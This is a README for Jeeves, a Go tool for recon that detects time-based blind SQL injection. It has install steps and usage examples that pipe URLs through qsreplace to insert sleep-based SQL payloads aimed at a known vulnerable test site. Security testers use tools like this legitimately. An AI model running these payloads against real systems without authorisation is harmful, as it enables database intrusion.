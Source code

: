 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/jeeves@latest

OR

> git clone https://github.com/ferreiraklet/jeeves.git

> cd jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?msg=SameValue

    <br>
  
    Jeeves reads from stdin:
  
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    <br>
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
